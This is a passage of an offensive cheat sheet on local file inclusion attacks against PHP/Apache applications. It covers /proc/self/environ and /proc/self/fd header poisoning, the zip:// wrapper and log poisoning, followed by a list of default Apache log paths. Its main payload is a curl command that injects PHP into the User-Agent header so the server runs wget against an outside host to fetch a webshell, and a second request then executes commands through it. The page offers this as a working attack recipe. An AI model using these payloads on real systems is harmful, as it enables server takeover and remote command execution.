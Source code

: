 Our main target is to inject the /proc/self/environ file from the HTTP Header: User-Agent. This file hosts the initial environment of the Apache process. Thus, the environmental variable User-Agent is likely to appear there.
```
curl http://secureapplication.example/index.php?view=../../../proc/self/environ
```
response:
```
HTTP_USER_AGENT="curl/" </body>
```
so we can inject shit like a webshell
```
curl -H "User-Agent: <?php system('wget http://10.10.14.6/webshell.php -O webshell.php')" http://target.com

curl http://target.com/webshell.php&cmd=ls

```

## 8. Using /proc/self/fd
brute force the fd until you see "referer"
/proc/self/fd/{number}
then
```
curl -H "Referer: <?php phpinfo(); ?>" http://target.com
```

## 9. Using zip
Upload a ZIP file containing a PHP shell compressed and access:
```
example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php
```
## 10. Using log files with controllable input like:
      . /var/log/apache/access.log
      . /var/log/apache/error.log
      . /var/log/vsftpd.log
      . /var/log/sshd.log
      . /var/log/mail


# 5 Common files location
---

https://wiki.apache.org/httpd/DistrosDefaultLayout  
**Common log file location**  
**Ubuntu, Debian**  
```
/var/log/apache2/error.log  
/var/log/apache2/access.log  
```
**Red Hat, CentOS, Fedora, OEL, RHEL**  
```
/var/log/httpd/error_log  
/var/log/httpd/access_log  
```
**FreeBSD**  
```
/var/log/httpd-error.log  
/var/log/httpd-access.log  
```
**Common Config file location**  
